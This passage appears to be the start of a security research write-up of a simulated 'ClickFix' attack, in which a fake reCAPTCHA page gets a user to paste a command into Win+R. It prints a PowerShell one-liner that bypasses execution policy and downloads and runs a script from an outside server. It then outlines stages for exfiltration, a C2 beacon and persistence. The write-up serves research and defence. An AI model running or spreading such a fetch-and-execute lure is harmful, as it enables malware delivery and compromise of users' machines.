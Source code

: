 This tactic has become increasingly popular and is being **used by various threat actors**, including ransomware gangs and advanced persistent threat (APT) groups.

Because it allows easy executions of commands that look innocuous (like `powershell.exe -Command ...`), attackers can misuse it to create payloads that:

-   Look harmless
-   Execute instantly with minimal interaction
-   Don’t require elevated privileges or exploit vulnerabilities

In the context of this research, we **simulated a real-world social engineering scenario**: a user is prompted during a fake reCAPTCHA verification to press `Win + R` and paste a command that appears to be a verification step.

### Malware delivery scenario

In our demo, the entire attack hinges on user interaction—a single paste that begins a multi-stage infection chain. Here's how it unfolds:

1.  **Initial access (user interaction):** The victim is instructed to paste a command (automatically copied when visiting the malicious website) via `Win + R` that silently fetches and runs a remote PowerShell script:

```powershell
powershell -ExecutionPolicy Bypass -NoProfile -Command irm 'https://server.amtzespinosa.com/payload.html' | iex
```

2.  **Stager payload (hosted HTML/PS1):** This script downloads a secondary payload (`cloudflare.verification.txt`) to the Desktop and immediately executes it. This file acts as the entrypoint fork manager, controlling further branching payloads (info exfil, C2 agent install and persistence).

3.  **Modular fork execution:**
    -   `infoexfil.ps1`: Gathers system metadata and sends it to a remote logging endpoint.
    -   `agent.ps1`: Installs and runs a custom-built C2 beacon that attempts to connect back to the attacker's server.
    -   `persist.ps1`: Adds stealthy persistence to ensure the agent survives reboots and logoffs.

Each module is downloaded and executed independently in its own process, using only native Windows tools (`Invoke-WebRequest`, `Start-Process`, etc.) — minimizing AV detection and avoiding writing obvious malware binaries to disk.

The result?

A stealthy, real-world scenario in which a **single user action leads to full compromise** without any vulnerability exploitation—just trust, native tools, and careful payload design.

## The exploit chain (Click-to-C2)

![Attack chain](https://raw.github.com/amtzespinosa/click-to-compromise/main/resources/attack_chain.png)

The image above visualizes the complete attack chain: from a single click to a fully established command-and-control channel. Below, we break down each component of the chain, examining execution, evasion, and persistence in a modern Windows 11 environment.

### Initial vector: ClickFix + social engineering
